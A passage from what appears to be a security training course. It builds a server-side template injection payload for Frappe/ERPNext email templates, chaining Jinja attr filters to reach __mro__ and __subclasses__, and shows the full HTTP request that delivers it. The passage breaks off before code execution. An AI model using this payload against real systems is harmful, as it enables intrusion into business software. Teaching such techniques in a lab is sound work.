 Jinja syntax does not work with "[" characters after a filter. Instead, let's save the response from the mro attribute as a variable and access index "1" after the variable is set.

To do this, we need to change the double curly braces ("{{" and "}}") that are used for expressions in Jinja to a curly brace followed by a percentage sign ("{%" and "%}"), which is used for statements. We also need to set a variable using the "set" tag and provide a variable name (let's use mro_r for mro response). Finally, we need to make a new expression to access index "1".

The final payload can be found in Listing 74.

{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}

{% set mro_r = string|attr(class)|attr(mro) %}
{{ mro_r[1] }}
Listing 74 - Setting mro_r variable to mro response


Rendering this template allows us to extract only the object class.


```
POST /api/method/frappe.email.doctype.email_template.email_template.get_email_template HTTP/1.1
Host: erpnext:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Frappe-CSRF-Token: 40d982af267589a752055032bae9b3c93261930c6e99d04e4462a524
X-Frappe-CMD: 
X-Requested-With: XMLHttpRequest
Content-Length: 859
Origin: http://erpnext:8000
Connection: close
Referer: http://erpnext:8000/desk
Cookie: user_image=; system_user=yes; user_id=Administrator; full_name=Administrator; sid=63a960ebd19d5a6b6a5215c323fae00017887e50991a732fdbfcf809

template_name=Hacking+With+SSTI&doc=%7B%22modified_by%22%3A%22Administrator%22%2C%22owner%22%3A%22Administrator%22%2C%22name%22%3A%22Hacking+With+SSTI%22%2C%22modified%22%3A%222024-08-28+19%3A51%3A58.831729%22%2C%22response%22%3A%22%3Cdiv%3E%7B%25+set+string+%3D+%5C%22ssti%5C%22+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%7B%25+set+class+%3D+%5C%22__class__%5C%22+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%7B%25+set+mro+%3D+%5C%22__mro__%5C%22+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%7B%25+set+subclasses+%3D+%5C%22__subclasses__%5C%22+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%3Cbr%3E%3C%2Fdiv%3E%3Cdiv%3E%7B%25+set+mro_r+%3D+string%7Cattr(class)%7Cattr(mro)+%25%7D%3C%2Fdiv%3E%3Cdiv%3E%7B%7B+mro_r%5B1%5D+%7D%7D%3C%2Fdiv%3E%22%2C%22idx%22%3A0%2C%22subject%22%3A%22Hacking+With+SSTI%22%2C%22doctype%22%3A%22Email+Template%22%2C%22docstatus%22%3A0%2C%22creation%22%3A%222024-08-28+16%3A42%3A59.129341%22%7D&_lang=
```
In the next section of the payload, we need to list all subclasses using the __subclasses__ method. We also need to execute the method using "()" after the attribute is accessed. Notice that we will quickly run into the same issue we ran into earlier when we need to access an index from the response while running the __subclasses__ method.

